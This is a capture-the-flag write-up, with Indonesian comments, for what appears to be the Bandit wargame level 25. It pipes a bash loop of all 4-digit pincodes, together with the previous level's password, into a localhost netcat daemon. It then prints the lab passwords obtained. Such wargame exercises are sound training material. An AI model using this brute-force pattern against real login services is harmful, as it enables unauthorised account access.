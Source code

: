 ```yaml
---
layout: level
level: 25
previous: ./level 24.html
next: ./level 26.html
---
```


# soal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. \
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. \
You do not need to create new connections each time

# solve
```bash
echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8" | nc localhost 30002
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Wrong! Please enter the correct current password and pincode. Try again.
## kita butuh dengan memasukan passowrd bandit24 dan pincode dalam satu baris

echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234" | nc localhost 30002
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Wrong! Please enter the correct current password and pincode. Try again.

## disini saya mencoba untuk melakukan looping sederhana
for i in {1000..9999}; do echo $i; done
# 1000
# 1001
# ...

## saya mencoba komubinasikan dengan password bandit24
for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done
...
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9997
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9998
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9999

## setelah itu saya mengkombinasikan dengan pass
for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002
# Wrong! Please enter the correct current password and pincode. Try again.
# Wrong! Please enter the correct current password and pincode. Try again.
# Correct!
# The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002  | grep -vi wrong
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Correct!
# The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

# after i ssh i found the pin
cat .pin
# 9297
```

# flag
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
